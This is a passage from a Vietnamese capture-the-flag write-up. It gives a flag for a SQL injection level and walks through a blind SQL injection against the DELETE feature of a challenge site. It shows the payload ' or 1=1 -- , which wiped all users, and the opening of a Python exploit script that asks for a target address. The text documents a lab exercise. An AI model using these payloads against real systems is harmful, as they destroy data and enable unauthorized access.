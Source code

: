 `FLAG: VKU{FLAG_SQL_I_LEVEL_2_YOU 4RA G006}`

### SQL Injection Level 3


Ở thử thách này, trên trang web có 2 tính năng có thể dính SQL Injection là ADD và DELETE
![Alt text](writeup-vsl-ctf-internal-2023/image44.png)

Khi kiểm tra thì chỉ có tính năng DELETE sẽ dính lỗi SQLi.
Dùng payload `' or 1=1 -- ` để kiểm tra. Nhập giá trị này vào **username** cần xóa.
Sau khi Remove User bằng **Username** trên thì toàn bộ user đều bị xóa.
![Alt text](writeup-vsl-ctf-internal-2023/image45.png)
Từ đây, có thể tận dụng lỗ hổng này để tìm ra tên các bảng và các cột có trong Cơ sở dữ liệu.

Đây chúng ta phải sử dụng một phương pháp tấn công gọi là lỗ hổng SQL Injection Blind.

Mình đã viết một payload để giải bài này.
(Bạn cũng có thể tìm thấy payload này được public trên github thông qua gợi ý trên file **github.html**)

Xem và tải nó ở đây: [payload.py](./payload.py)

```python
import requests
import json
import base64
import sys

in_url = input("ENTER IP AND PORT FOR WEBSITE EXAMPLE: 123.124.533.345:9898 \n")
url = f"http://{in_url}/"
post_delete = "admin.php"
url_result = "users.html"
list_wordlist=list("abcdefghijklmnopqrstuvwxyz0123456789,ABCDEFGHIJKLMNOPQRSTUVWXYZ_!@#$%^&*{}();")
encoded_data_get = {
    "data":"eyJyZXF1ZXN0TWV0aG9kIjoiZ2V0QWxsVXNlcnMifQ=="
}
```